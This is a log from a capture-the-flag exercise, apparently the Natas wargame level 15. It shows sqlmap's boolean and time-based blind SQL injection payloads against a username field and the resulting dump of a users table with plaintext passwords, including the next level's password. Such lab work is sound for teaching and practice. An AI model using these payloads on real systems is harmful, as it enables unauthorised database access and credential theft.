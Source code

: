 ```
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[14:56:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[14:56:22] [INFO] fetching tables for database: 'natas15'
[14:56:22] [INFO] fetching number of tables for database 'natas15'
[14:56:22] [INFO] resumed: 1
[14:56:22] [INFO] resumed: users
Database: natas15
[1 table]
+-------+
| users |
+-------+

[14:56:22] [INFO] fetching columns for table 'users' in database 'natas15'
[14:56:22] [INFO] resumed: 2
[14:56:22] [INFO] resumed: username
[14:56:22] [INFO] resumed: varchar(64)
[14:56:22] [INFO] resumed: password
[14:56:22] [INFO] resumed: varchar(64)
Database: natas15
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(64) |
| username | varchar(64) |
+----------+-------------+

[14:56:22] [INFO] fetching columns for table 'users' in database 'natas15'
[14:56:22] [INFO] resumed: 2
[14:56:22] [INFO] resumed: username
[14:56:22] [INFO] resumed: password
[14:56:22] [INFO] fetching entries for table 'users' in database 'natas15'
[14:56:22] [INFO] fetching number of entries for table 'users' in database 'natas15'
[14:56:22] [INFO] resumed: 4
[14:56:22] [INFO] resumed: 6P151OntQe
[14:56:22] [INFO] resumed: bob
[14:56:22] [INFO] resumed: HLwuGKts2w
[14:56:22] [INFO] resumed: charlie
[14:56:22] [INFO] resumed: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
[14:56:22] [INFO] resumed: natas16
[14:56:22] [INFO] resumed: hROtsfM734
[14:56:22] [INFO] resumed: alice
Database: natas15
Table: users
[4 entries]
